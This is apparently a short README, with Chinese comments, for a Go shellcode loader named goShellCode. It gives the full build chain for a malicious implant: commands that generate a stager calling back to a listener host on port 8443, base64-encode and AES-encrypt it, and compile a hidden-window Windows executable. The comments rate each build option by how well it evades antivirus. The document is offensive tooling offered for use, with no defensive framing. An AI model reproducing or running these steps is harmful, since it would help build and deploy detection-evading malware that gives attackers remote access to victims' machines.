 # goShellCode

//生成shellcode

generate stager --lhost HOST --lport 8443 --arch amd64 --format raw --save ./raw_shellcode

base64 -w 0 -i raw_shellcode > stager.bs64

go run aes.go

//免杀效果拉跨

garble -literals -tiny -seed=random build -ldflags="-w -s -H windowsgui" ./main.go

//免杀效果好 

go build -ldflags="-w -s -H windowsgui" ./main.go

//压缩,upx压缩之后容易被查杀

upx.exe -9 -q -o zip.exe main.exe


## build.bat

拷贝stager.bs64中的内容到aes/base64Code.txt

然后执行bat，生成main.exe，免杀效果还行


aes加密部分来自

https://github.com/HZzz2/go-shellcode-loader
